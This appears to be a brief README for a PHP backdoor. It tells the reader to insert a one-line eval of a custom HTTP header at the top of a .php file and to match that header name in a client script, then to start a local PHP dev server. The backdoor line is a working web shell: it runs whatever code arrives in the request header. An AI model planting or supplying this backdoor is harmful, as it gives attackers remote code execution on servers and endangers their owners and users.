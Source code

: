 # 1. The Backdoor
Place `isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);` at the top of the `.php` file.

Replace `EXPLOIT` with the header you're going to use. It must match with the `HEADER` variable on the client side.
# 2. Start the dev server
In this directory, run `php -S localhost:8000` to start a dev server on port 8000.